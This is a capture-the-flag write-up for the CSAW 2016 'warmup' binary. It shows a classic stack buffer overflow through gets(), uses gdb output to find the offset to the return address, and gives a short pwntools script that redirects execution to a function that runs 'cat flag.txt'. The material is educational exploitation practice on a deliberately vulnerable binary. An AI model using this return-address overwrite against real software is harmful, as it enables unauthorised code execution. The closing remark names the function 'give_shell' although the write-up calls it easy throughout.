




# Csaw 2016 Quals Warmup

This was done on `Ubuntu 20.04.4`. Let's take a look at the binary:



So we can see that we are dealing with a 64 bit binary. When we run it, it displays an address (looks like an address from the code section of the binary, versus another section like the libc) and prompts us for input. When we look at the main function in Ghidra, we see this:




So we can see that the address being printed is the address of the function `easy` (which when we look at it's address in Ghidra we see it's `0x40060d`). After that we can see it calls the function `gets`, which is a bug since it doesn't limit how much data it scans in (and since `input` can only hold `64` bytes of data, after we write `64` bytes we overflow the buffer and start overwriting other things in memory). With that bug we can totally reach the return address (the address on the stack that is executed after the `ret` call to return execution back to whatever code called it). For what to call, we see that the `easy` function will print the flag for us (in order to print the flag, we will need to have a `flag.txt` file in the same directory as the executable):


So let's use gdb to figure out how much data we need to send before overwriting the return address, so we can land the bug. I will just set a breakpoint for after the `gets` call:

```
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:    push   rbp
   0x000000000040061e <+1>:    mov    rbp,rsp
   0x0000000000400621 <+4>:    add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:    mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:    mov    esi,0x400755
   0x0000000000400688 <+107>:    mov    edi,0x1
   0x000000000040068d <+112>:    call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:    lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:    mov    rdi,rax
   0x0000000000400699 <+124>:    mov    eax,0x0
   0x000000000040069e <+129>:    call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:    leave  
   0x00000000004006a4 <+135>:    ret    
End of assembler dump.
gef➤  b *main+134
Breakpoint 1 at 0x4006a3
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw16_warmup/warmup
-Warm Up-
WOW:0x40060d
>15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffde50  →  "15935728"
$rbx   : 0x0               
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffde10  →  "0x40060d"
$rbp   : 0x00007fffffffde90  →  0x00000000004006b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x35333935        
$rdi   : 0x00007fffffffde51  →  0x0038323735333935 ("5935728"?)
$rip   : 0x00000000004006a3  →  <main+134> leave
$r8    : 0x0000000000602269  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf70  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde10│+0x0000: "0x40060d"     ← $rsp
0x00007fffffffde18│+0x0008: 0x000000000000000a
0x00007fffffffde20│+0x0010: 0x0000000000000000
0x00007fffffffde28│+0x0018: 0x0000000000000000
0x00007fffffffde30│+0x0020: 0x0000000000000000
0x00007fffffffde38│+0x0028: 0x0000000000000000
0x00007fffffffde40│+0x0030: 0x0000000000000000
0x00007fffffffde48│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400694 <main+119>       rex.RB ror BYTE PTR [r8-0x77], 0xc7
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave  
     0x4006a4 <main+135>       ret    
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop    
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a3 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602260 - 0x602268  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde50 - 0x7fffffffde58  →   "15935728"
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
```

With a bit of math, we see the offset:



We can also see this in the stack layout in ghidra. Here we see that `input` is stored at offset `-0x48`. This is the offset from `input` to the saved stack return addrress (although I have seen this be wrong in certaint scenarios):



So we can see that after `0x48` bytes of input, we start overwriting the return address. With all of this, we can write the exploit;

```
from pwn import *

target = process('./warmup')
gdb.attach(target, gdbscript = 'b *0x00000000004006a3')
input("waiting")

# Make the payload
payload = b""
payload += b"0"*0x48 # Overflow the buffer up to the return address 
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()
```

So one thing about this particular challenge. If you run the explouit on more modern versions of Ubuntu, it will probably crash. With pwning, we sometimes run into weird problems caused by the enviornment we run the binary on. This is one of those. Depending on the version of Ubuntu we run this on, this exploit will or will not work. I believe this is because of a stack alignment issue.

I would say the important thing is, as long as call the `easy` function is called, we should consider this challenge was solved. That is the actual intended solution for this challenge:

```
reakpoint 1, 0x00000000004006a3 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$rbx   : 0x000000004006b0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007f01582cf980  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x007fff8db416a0  →  "0x40060d\n"
$rbp   : 0x007fff8db41720  →  0x3030303030303030 ("00000000"?)
$rsi   : 0x000000011ba2a1  →  "00000000000000000000000000000000000000000000000000[...]"
$rdi   : 0x007f01582d17f0  →  0x0000000000000000
$rip   : 0x000000004006a3  →  <main+134> leave 
$r8    : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$r9    : 0x0               
$r10   : 0x007f01582cfbe0  →  0x000000011bb2a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x007fff8db41810  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────── stack ────
0x007fff8db416a0│+0x0000: "0x40060d\n"   ← $rsp
0x007fff8db416a8│+0x0008: 0x0000000000000a ("\n"?)
0x007fff8db416b0│+0x0010: 0x0000000000000000
0x007fff8db416b8│+0x0018: 0x0000000000000000
0x007fff8db416c0│+0x0020: 0x00000000400040  →   (bad) 
0x007fff8db416c8│+0x0028: 0x00000000000009 ("\t"?)
0x007fff8db416d0│+0x0030: 0x007fff8db41740  →  0x00000001582cb7a0
0x007fff8db416d8│+0x0038: 0x007fff8db41b09  →  0x0034365f363878 ("x86_64"?)
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400696 <main+121>       mov    rdi, rax
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave  
     0x4006a4 <main+135>       ret    
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop    
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x4006a3 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  si
0x00000000004006a4 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$rbx   : 0x000000004006b0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007f01582cf980  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x007fff8db41728  →  0x0000000040060d  →  <easy+0> push rbp
$rbp   : 0x3030303030303030 ("00000000"?)
$rsi   : 0x000000011ba2a1  →  "00000000000000000000000000000000000000000000000000[...]"
$rdi   : 0x007f01582d17f0  →  0x0000000000000000
$rip   : 0x000000004006a4  →  <main+135> ret 
$r8    : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$r9    : 0x0               
$r10   : 0x007f01582cfbe0  →  0x000000011bb2a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x007fff8db41810  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fff8db41728│+0x0000: 0x0000000040060d  →  <easy+0> push rbp   ← $rsp
0x007fff8db41730│+0x0008: 0x0000000200000000
0x007fff8db41738│+0x0010: 0x007fff8db41818  →  0x007fff8db42412  →  "./warmup"
0x007fff8db41740│+0x0018: 0x00000001582cb7a0
0x007fff8db41748│+0x0020: 0x0000000040061d  →  <main+0> push rbp
0x007fff8db41750│+0x0028: 0x000000004006b0  →  <__libc_csu_init+0> push r15
0x007fff8db41758│+0x0030: 0x36017d6013c99181
0x007fff8db41760│+0x0038: 0x00000000400520  →  <_start+0> xor ebp, ebp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
     0x4006a3 <main+134>       leave  
 →   0x4006a4 <main+135>       ret    
   ↳    0x40060d <easy+0>         push   rbp
        0x40060e <easy+1>         mov    rbp, rsp
        0x400611 <easy+4>         mov    edi, 0x400734
        0x400616 <easy+9>         call   0x4004d0 <system@plt>
        0x40061b <easy+14>        pop    rbp
        0x40061c <easy+15>        ret    
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x4006a4 in main (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a4 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  si
0x000000000040060d in easy ()


[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$rbx   : 0x000000004006b0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007f01582cf980  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x007fff8db41730  →  0x0000000200000000
$rbp   : 0x3030303030303030 ("00000000"?)
$rsi   : 0x000000011ba2a1  →  "00000000000000000000000000000000000000000000000000[...]"
$rdi   : 0x007f01582d17f0  →  0x0000000000000000
$rip   : 0x0000000040060d  →  <easy+0> push rbp
$r8    : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$r9    : 0x0               
$r10   : 0x007f01582cfbe0  →  0x000000011bb2a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x007fff8db41810  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fff8db41730│+0x0000: 0x0000000200000000   ← $rsp
0x007fff8db41738│+0x0008: 0x007fff8db41818  →  0x007fff8db42412  →  "./warmup"
0x007fff8db41740│+0x0010: 0x00000001582cb7a0
0x007fff8db41748│+0x0018: 0x0000000040061d  →  <main+0> push rbp
0x007fff8db41750│+0x0020: 0x000000004006b0  →  <__libc_csu_init+0> push r15
0x007fff8db41758│+0x0028: 0x36017d6013c99181
0x007fff8db41760│+0x0030: 0x00000000400520  →  <_start+0> xor ebp, ebp
0x007fff8db41768│+0x0038: 0x007fff8db41810  →  0x0000000000000001
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400600 <frame_dummy+32> jmp    0x400580 <register_tm_clones>
     0x400605 <frame_dummy+37> nop    DWORD PTR [rax]
     0x400608 <frame_dummy+40> jmp    0x400580 <register_tm_clones>
 →   0x40060d <easy+0>         push   rbp
     0x40060e <easy+1>         mov    rbp, rsp
     0x400611 <easy+4>         mov    edi, 0x400734
     0x400616 <easy+9>         call   0x4004d0 <system@plt>
     0x40061b <easy+14>        pop    rbp
     0x40061c <easy+15>        ret    
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x40060d in easy (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40060d → easy()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  si
0x000000000040060e in easy ()


[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$rbx   : 0x000000004006b0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007f01582cf980  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x007fff8db41728  →  "00000000"
$rbp   : 0x3030303030303030 ("00000000"?)
$rsi   : 0x000000011ba2a1  →  "00000000000000000000000000000000000000000000000000[...]"
$rdi   : 0x007f01582d17f0  →  0x0000000000000000
$rip   : 0x0000000040060e  →  <easy+1> mov rbp, rsp
$r8    : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$r9    : 0x0               
$r10   : 0x007f01582cfbe0  →  0x000000011bb2a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x007fff8db41810  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fff8db41728│+0x0000: "00000000"   ← $rsp
0x007fff8db41730│+0x0008: 0x0000000200000000
0x007fff8db41738│+0x0010: 0x007fff8db41818  →  0x007fff8db42412  →  "./warmup"
0x007fff8db41740│+0x0018: 0x00000001582cb7a0
0x007fff8db41748│+0x0020: 0x0000000040061d  →  <main+0> push rbp
0x007fff8db41750│+0x0028: 0x000000004006b0  →  <__libc_csu_init+0> push r15
0x007fff8db41758│+0x0030: 0x36017d6013c99181
0x007fff8db41760│+0x0038: 0x00000000400520  →  <_start+0> xor ebp, ebp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400605 <frame_dummy+37> nop    DWORD PTR [rax]
     0x400608 <frame_dummy+40> jmp    0x400580 <register_tm_clones>
     0x40060d <easy+0>         push   rbp
 →   0x40060e <easy+1>         mov    rbp, rsp
     0x400611 <easy+4>         mov    edi, 0x400734
     0x400616 <easy+9>         call   0x4004d0 <system@plt>
     0x40061b <easy+14>        pop    rbp
     0x40061c <easy+15>        ret    
     0x40061d <main+0>         push   rbp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x40060e in easy (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40060e → easy()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  si
0x0000000000400611 in easy ()


[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$rbx   : 0x000000004006b0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007f01582cf980  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x007fff8db41728  →  "00000000"
$rbp   : 0x007fff8db41728  →  "00000000"
$rsi   : 0x000000011ba2a1  →  "00000000000000000000000000000000000000000000000000[...]"
$rdi   : 0x007f01582d17f0  →  0x0000000000000000
$rip   : 0x00000000400611  →  <easy+4> mov edi, 0x400734
$r8    : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$r9    : 0x0               
$r10   : 0x007f01582cfbe0  →  0x000000011bb2a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x007fff8db41810  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fff8db41728│+0x0000: "00000000"   ← $rsp, $rbp
0x007fff8db41730│+0x0008: 0x0000000200000000
0x007fff8db41738│+0x0010: 0x007fff8db41818  →  0x007fff8db42412  →  "./warmup"
0x007fff8db41740│+0x0018: 0x00000001582cb7a0
0x007fff8db41748│+0x0020: 0x0000000040061d  →  <main+0> push rbp
0x007fff8db41750│+0x0028: 0x000000004006b0  →  <__libc_csu_init+0> push r15
0x007fff8db41758│+0x0030: 0x36017d6013c99181
0x007fff8db41760│+0x0038: 0x00000000400520  →  <_start+0> xor ebp, ebp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400608 <frame_dummy+40> jmp    0x400580 <register_tm_clones>
     0x40060d <easy+0>         push   rbp
     0x40060e <easy+1>         mov    rbp, rsp
 →   0x400611 <easy+4>         mov    edi, 0x400734
     0x400616 <easy+9>         call   0x4004d0 <system@plt>
     0x40061b <easy+14>        pop    rbp
     0x40061c <easy+15>        ret    
     0x40061d <main+0>         push   rbp
     0x40061e <main+1>         mov    rbp, rsp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x400611 in easy (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400611 → easy()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  si
0x0000000000400616 in easy ()


[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$rbx   : 0x000000004006b0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007f01582cf980  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x007fff8db41728  →  "00000000"
$rbp   : 0x007fff8db41728  →  "00000000"
$rsi   : 0x000000011ba2a1  →  "00000000000000000000000000000000000000000000000000[...]"
$rdi   : 0x00000000400734  →  "cat flag.txt"
$rip   : 0x00000000400616  →  <easy+9> call 0x4004d0 <system@plt>
$r8    : 0x007fff8db416e0  →  "00000000000000000000000000000000000000000000000000[...]"
$r9    : 0x0               
$r10   : 0x007f01582cfbe0  →  0x000000011bb2a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x007fff8db41810  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fff8db41728│+0x0000: "00000000"   ← $rsp, $rbp
0x007fff8db41730│+0x0008: 0x0000000200000000
0x007fff8db41738│+0x0010: 0x007fff8db41818  →  0x007fff8db42412  →  "./warmup"
0x007fff8db41740│+0x0018: 0x00000001582cb7a0
0x007fff8db41748│+0x0020: 0x0000000040061d  →  <main+0> push rbp
0x007fff8db41750│+0x0028: 0x000000004006b0  →  <__libc_csu_init+0> push r15
0x007fff8db41758│+0x0030: 0x36017d6013c99181
0x007fff8db41760│+0x0038: 0x00000000400520  →  <_start+0> xor ebp, ebp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40060d <easy+0>         push   rbp
     0x40060e <easy+1>         mov    rbp, rsp
     0x400611 <easy+4>         mov    edi, 0x400734
 →   0x400616 <easy+9>         call   0x4004d0 <system@plt>
   ↳    0x4004d0 <system@plt+0>   jmp    QWORD PTR [rip+0x200b4a]        # 0x601020 <system@got.plt>
        0x4004d6 <system@plt+6>   push   0x1
        0x4004db <system@plt+11>  jmp    0x4004b0
        0x4004e0 <__libc_start_main@plt+0> jmp    QWORD PTR [rip+0x200b42]        # 0x601028 <__libc_start_main@got.plt>
        0x4004e6 <__libc_start_main@plt+6> push   0x2
        0x4004eb <__libc_start_main@plt+11> jmp    0x4004b0
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
system@plt (
   $rdi = 0x00000000400734 → "cat flag.txt",
   $rsi = 0x000000011ba2a1 → "00000000000000000000000000000000000000000000000000[...]",
   $rdx = 0x00000000000000
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x400616 in easy (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400616 → easy()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```

So there in gdb, we see that `give_shell` was called, which called `system` with `"cat flag.txt"`, which was the intended solution.
c